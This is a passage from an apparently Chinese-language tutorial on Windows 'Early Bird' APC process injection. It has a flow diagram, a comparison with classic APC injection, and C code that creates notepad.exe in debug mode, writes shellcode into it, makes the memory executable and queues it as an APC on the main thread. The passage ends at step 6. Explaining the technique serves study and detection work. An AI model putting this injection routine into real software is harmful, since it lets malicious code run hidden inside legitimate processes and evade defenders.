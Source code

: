 ```
[代码执行]                         |
                               [DebugActiveProcessStop]
                                   |
                               [主线程自动启动]
                                   |
                               [初始化时警报]
                                   v
                               [APC 立即执行]
```

**时间窗口对比**：
- **传统 APC**：注入已运行的进程，需要找到或等待可警报线程
- **Early Bird**：在进程启动前注入，主线程初始化时自动执行

### 3. 完整技术流程

```c
// 步骤 1：以调试模式创建目标进程
PROCESS_INFORMATION pi = {0};
CreateProcessA(
    NULL,
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, FALSE,
    DEBUG_PROCESS,  // 关键：进程挂起
    NULL, NULL, &si, &pi
);
// 此时进程已创建，但主线程尚未开始执行

// 步骤 2：在目标进程分配内存
PVOID remoteAddr = VirtualAllocEx(
    pi.hProcess,
    NULL,
    shellcodeSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_READWRITE
);

// 步骤 3：写入 shellcode
WriteProcessMemory(
    pi.hProcess,
    remoteAddr,
    shellcode,
    shellcodeSize,
    &bytesWritten
);

// 步骤 4：修改为可执行权限
VirtualProtectEx(
    pi.hProcess,
    remoteAddr,
    shellcodeSize,
    PAGE_EXECUTE_READ,
    &oldProtect
);

// 步骤 5：将 shellcode 地址加入主线程 APC 队列（关键！）
QueueUserAPC(
    (PAPCFUNC)remoteAddr,  // shellcode 地址
    pi.hThread,            // 主线程句柄
    0                      // 参数（可选）
);
// APC 已排队，但尚未执行

// 步骤 6：停止调试，让进程继续运行
```